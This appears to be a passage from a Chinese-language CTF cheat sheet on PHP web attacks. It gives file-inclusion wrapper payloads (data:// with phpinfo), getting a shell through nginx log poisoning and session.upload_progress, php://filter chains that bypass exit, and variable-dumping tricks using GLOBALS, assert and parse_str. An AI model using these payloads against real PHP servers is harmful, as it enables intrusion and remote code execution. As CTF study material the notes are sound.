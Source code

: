 ```php
sftp://
ldap://
tftp://
gopher://
data:text/plain,<?php phpinfo();?> //可去掉双斜杠
data://text/plain;base64,poc
```
![20220530222004](https://s2.loli.net/2022/05/30/m8KGvD1UWVBpZe6.png)
## 日志getshell
先在user-agent写shell，url不带参数
再包含/var/log/nginx/access.log
## 利用session对话
php中的session.upload_progress，当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中
session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session
利用PHP_SESSION_UPLOAD_PROGRESS=""把内容写入/tmp/sess_TGAO
## 利用php://filter绕开exit
```php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
php://filter/write=string.strip_tags|convert.base64-decode/resource=1.php
php://filter/write=string.rot13/resource=1.php
```
>base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码
>先strip_tags绕exit，再用base64还原
# 八、变量
## 全局变量
flag In the variable 
```php
eval("var_dump($$args);");//?args=GLOBALS
```
_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll
```php
call_user_func(call_user_func(_,"get_defined_vars"));
_("get_defined_vars")=get_defined_vars
call_user_func(get_defined_vars)
```
## $_SERVER
```php
1.$_SERVER['argv']
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])

2.$_SERVER['QUERY_STRING'];//url的?后的所有内容
```

